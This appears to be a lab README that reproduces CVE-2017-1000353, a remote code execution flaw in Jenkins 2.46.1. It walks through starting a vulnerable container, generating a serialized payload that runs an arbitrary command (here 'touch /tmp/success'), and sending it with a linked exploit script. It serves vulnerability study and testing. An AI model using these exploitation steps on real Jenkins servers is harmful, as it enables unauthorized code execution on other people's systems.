 ## Jenkins-CI Remote Code Execution Vulnerability (CVE-2017-1000353)

## Environment setup

Start jenkins 2.46.1 by executing the following command:

```bash
docker-compose up -d
```

Wait for the full startup to succeed, and then visit `http://your-ip:8080` to see jenkins running successfully, no need to install it manually.

## Testing process

### Step 1: Generate serialized strings

Referring to <https://github.com/vulhub/CVE-2017-1000353>, first download [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar), which is the tool for generating the POC.

Execute the following command to generate the bytecode file:

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser is the name of the generated bytecode file
# "touch ..." is the arbitrary command to be executed
```

After executing the above code, the jenkins_poc.ser file is generated, which is the serialization string.

### Step 2: Send the packet and execute the command

Download [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py), python3 execute `python exploit.py http://your-ip:8080 jenkins_poc.ser` to send the bytecode file just generated to the target:

![](1.png)

Enter docker and find that `/tmp/success` was successfully created, indicating that the command execution vulnerability was successfully exploited:

![](2.png)

For a detailed guide on the **Jenkins-CI Remote Code Execution Vulnerability (CVE-2017-1000353)**, including a comprehensive explanation of the vulnerability and potential attack, please refer to the project's documentation at [GitHub Pages](https://sne-m23-sn.github.io/Vulnerable-Nodes-Lab/#CVE-2017-1000353).
